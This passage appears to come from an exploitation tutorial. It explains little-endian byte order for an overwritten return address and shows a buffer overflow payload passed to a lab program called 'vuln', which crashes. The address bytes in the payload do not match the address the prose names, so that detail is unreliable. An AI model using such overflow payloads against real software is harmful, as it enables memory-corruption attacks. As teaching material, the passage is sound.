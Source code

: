 Please note that I flipped the bytes in the address
`0x00010494`. That is, I put `\x94\x04\x01\x00` instead
of `\x00\x01\x04\x94`. This is essential. Remember? It
was little endian. This is what would have happened if I
didn't reverse it:

```sh
$ ./vuln $(echo -e '12345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234567812345678123456781234\x00\x01\x05\x04')
-bash: warning: command substitution: ignored null byte in input
Segmentation fault
```

Exercise to the reader: Step through GDB and check what
addresses and what registers get overwritten at what
point.
